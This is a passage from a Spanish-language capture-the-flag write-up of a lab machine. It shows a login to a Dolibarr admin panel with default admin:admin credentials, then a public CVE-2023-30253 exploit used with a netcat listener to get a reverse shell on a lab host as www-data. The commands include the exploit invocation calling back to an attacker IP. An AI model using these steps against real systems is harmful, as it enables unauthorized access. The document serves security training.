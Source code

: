 Si buscamos en google `Dolibarr default credentials` vemos que son `admin:admin`

![](/assets/img/BoardLight/image_4.png)

Nos `logueamos` en el panel `administrativo`

![](/assets/img/BoardLight/image_5.png)
## Web Exploitation

Nos `descargamos` este `exploit` [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253.git) y nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 4444
```

`Ejecutamos` el `exploit`

```
# python3 exploit.py http://crm.board.htb admin admin 10.10.16.28 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

`Recibimos` una `shell`

```
# nc -nlvp 4444                                
listening on [any] 4444 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.231.37] 33498
bash: cannot set terminal process group (872): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
```

